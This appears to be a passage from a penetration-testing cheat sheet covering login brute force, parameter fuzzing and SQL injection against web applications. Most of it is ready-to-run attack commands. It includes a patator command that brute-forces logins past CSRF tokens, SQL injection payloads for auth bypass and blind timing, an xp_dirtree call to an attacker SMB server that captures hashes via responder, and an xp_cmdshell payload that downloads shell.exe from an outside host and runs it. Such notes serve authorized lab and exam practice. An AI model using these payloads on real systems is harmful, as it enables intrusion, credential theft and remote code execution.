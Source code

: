 CSRF Tokens defeat hydra, so use `patator`: (documentation in [`patator.py`](https://github.com/lanjelot/patator/blob/master/patator.py))

```sh
# before_urls visits the login page where the CSRF token is
# before_egrep uses regex to extract the CSRF token
# bug in reslover means you have to tell it to resolve IP to itself
# use `--debug --threads=1 proxy=127.0.0.1:8080 proxy_type=http` for troubleshooting with burp and debug logging.
patator http_fuzz --threads=10 --max-retries=0 --hits=patator-hits.txt method=POST follow=1 accept_cookie=1 timeout=5 auto_urlencode=1 resolve=VICTIM_IP:VICTIM_IP url="http://VICTIM_IP/login" body='csrf_token=__CSRF__&usernameD=FILE0&password=FILE1' 0=users.txt 1=cewl.txt before_urls="http://VICTIM_IP/login" before_egrep='__CSRF__:value="(\w+)" id="login__csrf_token"' -x ignore:fgrep='No match'
```

### Web parameters

```shell
#When it comes time to enumerate parameter, REMEMBER, you can do directory/name or name/directory. Both ways
gobuster fuzz -u http://192.168.216.143/index.php?pagina=FUZZ  -w /usr/share/wordlists/dirb/big.txt -b 403 --exclude-length 0

ffuf

```

### SQL Injection

```sql
' OR 1=1 #'

--This tells us that there are two columns returned by the SQL quer
' UNION ALL select 1, 2, 3 #'

--Moving on, faced with a blind SQL injection attempt, we can try to use the WAITFOR DELAY command to validate success of our SQL commands. After playing with various syntaxes, we encounter a noticable 10 second delay with the following input.
'; IF (1=1) WAITFOR DELAY '0:0:10'; #'

sudo responder -I tun0
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
' OR 1=1 ; exec master.dbo.xp_dirtree '\\192.168.49.106\test'; #'

--Reverse shell if the injectable field is directly communicated to the database 
' EXEC xp_cmdshell 'powershell Invoke-WebRequest -Uri 192.168.49.106/shell.exe -OutFile C:\Users\Public\shell.exe;C:\Users\Public\shell.exe';--+-`

```

### Command Injection

https://book.hacktricks.xyz/pentesting-web/command-injection 
